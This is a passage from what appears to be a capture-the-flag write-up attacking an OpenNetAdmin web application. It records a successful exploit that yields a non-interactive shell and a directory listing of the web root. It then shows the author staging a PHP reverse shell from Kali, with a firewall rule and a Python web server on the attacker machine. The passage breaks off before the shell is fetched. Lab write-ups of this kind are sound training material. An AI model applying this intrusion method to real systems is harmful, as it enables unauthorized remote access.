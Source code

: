 Ok, let's try it out against the target ``/ona``:

![47691 fail](47691%20fail.png)

:thumbsdown: Nope, that didn't work

![47691 success](47691%20success.png)

:thumbsup: YUP that worked!  Wonderful!

This exploit provides a non-interactive shell at ``/opt/ona/www/`` (which itself is symlinked from the Apache directory `/var/www/ona`)

But what else is present in this directory?

```
$ ls -la
total 88
drwxrwxr-x 10 www-data www-data 4096 Jun  6 20:18 .
drwxr-x---  7 www-data www-data 4096 Nov 21  2019 ..
-rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
-rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
-rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
-rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins

```

Haha alright, so it's the whole `/ona` site and related PHP. Since there are PHP scripts right in this directory, it stands to reason that *other php* could be ran from this same directory :thinking: This non-interactive shell is kind of a pain, so perhaps I could add a new reverse shell?

I grabbed a copy of my toolbox, and added an easy PHP reverse shell to it. The reverse shell I got was one that came with kali: `/usr/share/webshells/php/php-reverse-shell.php`. I'm sure many reverse shells would have worked, but this is one I've tried before so I'll use it first. I hosted my toolbox, including a copy of this reverse shell, from my attacker machine. First, I set a new firewall rule:

```bash
sudo ufw allow from 10.10.10.171 to any port 8000 proto tcp
```

Then I stood up the python webserver:

```bash
python3 -m http.server 8000
```
